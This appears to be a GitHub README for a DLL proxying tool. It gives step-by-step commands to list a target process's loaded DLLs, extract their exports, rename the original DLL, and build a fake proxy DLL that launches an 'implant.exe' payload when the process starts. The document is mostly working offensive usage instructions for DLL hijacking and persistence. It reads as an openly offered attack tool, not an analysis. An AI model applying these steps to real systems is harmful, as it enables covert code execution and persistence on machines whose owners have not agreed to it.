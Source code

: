 # DLL Proxy

This project provides a simple method to create a proxy DLL using three main files:

- **dll-extractor.cpp**: Lists all currently loaded DLLs in a running process.

- **function-extractor.cpp**: Extracts the exported functions from DLL.

- **maker.sh**: Adds the extracted functions into a template for creating a fake (proxy) DLL.


# How to Use

**Step 1**  

Compile dll-extractor.cpp and function-extractor.cpp.
```bash
x86_64-w64-mingw32-g++ dll-extractor.cpp -o dll-extractor.exe
```
```bash
x86_64-w64-mingw32-g++ function-extractor.cpp -o function-extractor.exe -ldbghelp
```

**Step 2**  

Transfer the compiled files to a Windows system and run them there.
```cmd
dll-extractor.exe TARGET-PROCSS
```
```cmd
function-extractor.exe c:\PATH\example.dll
```

**Step 3**  

Copy the extracted function names to file.txt.  

![expample file.txt](img/img1.png)

renaming the target DLL(for example, by adding a letter like "1" or "2" to its name in target system).
```cmd
ren c:\PATH\example.dll c:\PATH\example1.dll
```

`-d`: the path to the same DLL that was renamed).
```bash
./maker.sh -d "c:\PATH\example1.dll" -o output.cpp -p "c:\PATH\implant.exe" file.txt
```


Note: If the DLL path contains spaces, make sure to wrap it in double quotes `" "`.

**Step 4**  

Compile output.cpp using the original name DLL `example.dll` and place it next to the original DLL.
After the process is launched,your payload will be executed.

---
**You can also move the original DLL to a different folder, but make sure to define its new path correctly inside maker.sh.**
